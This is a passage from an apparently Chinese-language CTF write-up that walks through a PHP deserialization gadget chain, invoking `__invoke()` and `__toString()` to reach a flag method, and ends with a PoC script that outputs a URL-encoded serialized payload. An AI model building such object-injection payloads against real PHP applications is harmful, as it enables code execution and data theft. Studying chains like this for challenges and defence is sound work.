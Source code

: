 在`start`类中，我们看到

```
public function get1()
{
    $s1 = $this->start1;
    $s2 = $this->start2;
    $s1($s2);
}

```

我们只要让`$this->start1 = new cat()`同时 `$htis->start2 = new test2()`即可，因为我们之前已经实例化了一个`start`类，所以用跟前面同样的方法我们就可以达到目的

这样`$s1($s2)`就会变成一个`cat`类被当成一个函数并将一个`test2`类当作参数传入，从而达到调用`__invoke()`函数的目的，然后接着去调用`__toString()`

再看`__toString()`，里面`$this->a`调用了`flag`类中的`gatFlag()`方法，还是之前的思路，将`$this->a`实例化为`flag`的一个类

得到最终的poc

```
<?php
class gg
{
    private $gg;
    public function __construct()
    {
        $this->gg = new start();
    }
}
class start
{
    private $start1;
    private $start2;
    public function __construct()
    {
        $this->start1 = new cat();
        $this->start2 = new test2();
    }
}

class cat{}

class test2
{
    private $a;
    public function __construct()
    {
        $this->a = new flag();
    }
}

class flag{}

$test = new gg();
echo urlencode(serialize($test));
?>

```
